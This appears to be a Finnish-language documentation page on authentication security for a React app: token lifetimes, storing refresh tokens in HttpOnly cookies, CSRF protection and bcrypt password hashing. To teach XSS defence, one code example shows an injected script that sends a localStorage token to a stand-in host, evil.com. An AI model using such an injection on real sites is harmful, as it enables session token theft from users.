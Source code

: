 
## Turvallisuus

### Access Token turvallisuus

**✅ Hyvät käytännöt:**
- Lyhyt voimassaoloaika (15 min)
- Tallennetaan vain muistiin (React state/context)
- Ei koskaan localStorageen tai sessionStorageen
- Lähetetään vain HTTPS:n yli tuotannossa

**❌ Mitä välttää:**
- localStorage tai sessionStorage (XSS-haavoittuva)
- Pitkä voimassaoloaika
- Tallentaminen URL parametreihin

### Refresh Token turvallisuus

**✅ Hyvät käytännöt:**
- HTTP-Only cookie (JavaScript ei pääse käsiksi)
- Tallennetaan tietokantaan validointia varten
- Pitkä voimassaoloaika OK (cookie on suojattu)
- SameSite=strict (CSRF-suojaus)
- Secure flag tuotannossa (HTTPS-only)

**❌ Mitä välttää:**
- Tallentaminen localStorageen
- Tallentaminen normaaliin cookieen ilman httpOnly-flagia

### Salasanat

**✅ Hyvät käytännöt:**
- Käytä bcryptjs (tai bcrypt) hashaukseen
- Vähintään 10 salt roundia
- Älä koskaan tallenna plaintext-salasanoja

---

## Miksi HTTP-Only Cookie?

### HTTP-Only Cookie edut

#### 1. **XSS-suojaus (Cross-Site Scripting)**

```javascript
// ❌ localStorage - haavoittuva XSS:lle
localStorage.setItem('token', token);

// Hakkeri voi injektoida:
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('token'))
</script>

// ✅ HTTP-Only cookie - JavaScript EI pääse käsiksi
// Cookie lähetetään automaattisesti, mutta JavaScript ei voi lukea sitä
document.cookie; // ei näytä httpOnly cookieta
```
